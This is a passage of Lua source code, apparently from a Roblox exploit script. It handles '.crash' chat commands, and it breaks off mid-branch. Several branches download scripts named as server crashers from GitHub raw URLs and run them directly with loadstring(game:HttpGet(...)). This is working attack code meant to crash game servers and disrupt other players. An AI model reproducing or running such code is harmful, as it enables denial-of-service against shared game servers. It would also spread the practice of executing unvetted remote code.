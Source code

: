 				local Clone = game.Players.LocalPlayer.Character
				Clone.HumanoidRootPart.CFrame = cfr * CFrame.fromEulerAnglesXYZ(0,math.rad(angle),0) * CFrame.new(0,-size,-10)
				Clone.HumanoidRootPart.CFrame=Clone.HumanoidRootPart.CFrame*CFrame.new(0,0,2)
				Clone.HumanoidRootPart.CFrame=Clone.HumanoidRootPart.CFrame*CFrame.Angles(0,math.rad(180),0)
			elseif Args[1] == ".crash" and Args[2] == "swag" and not Crashed then
				local Player = GetPlayerFromString(Args[3],true)
				if Player and Player == game.Players.LocalPlayer then
					if game.CoreGui:FindFirstChild("RenderScreen") then
						game.CoreGui.RenderScreen:Destroy()
					end
					game:GetService("RunService"):Set3dRenderingEnabled(true)
					Crashed = true
					loadstring(game:HttpGet('https://raw.githubusercontent.com/lerkermer/lua-projects/master/SuperCustomServerCrasher'))()
					for Index,Var in pairs(CmdSettings) do
						CmdSettings[Var] = nil
					end
					CmdSettings = {}
					setfpscap(60)
					wait(1)
					setfpscap(60)
					wait(1)
					setfpscap(60)
					wait(1)
					setfpscap(60)	
				end
			elseif Args[1] == ".crash" and Args[2] == "encrypt" and not Crashed then
				local Player = GetPlayerFromString(Args[3],true)
				if Player and Player == game.Players.LocalPlayer then
					if game.CoreGui:FindFirstChild("RenderScreen") then
						game.CoreGui.RenderScreen:Destroy()
					end
					game:GetService("RunService"):Set3dRenderingEnabled(true)
					Crashed = true
					loadstring(game:HttpGet("https://raw.githubusercontent.com/remorseW/encryptW/main/CustomEncryptCrasher.lua"))()

					for Index,Var in pairs(CmdSettings) do
						CmdSettings[Var] = nil
					end
					CmdSettings = {}
					setfpscap(60)
					wait(1)
					setfpscap(60)
					wait(1)
					setfpscap(60)
					wait(1)
					setfpscap(60)	
				end
			elseif Args[1] == ".crash" and Args[2] == "15min" and not Crashed then
				local Player = GetPlayerFromString(Args[3],true)
				if Player and Player == game.Players.LocalPlayer then
					if game.CoreGui:FindFirstChild("RenderScreen") then
						game.CoreGui.RenderScreen:Destroy()
					end
					game:GetService("RunService"):Set3dRenderingEnabled(true)
					Crashed = true
					loadstring(game:HttpGet("https://raw.githubusercontent.com/remorseW/encryptW/main/DahooSuperQuickCrash.lua"))()
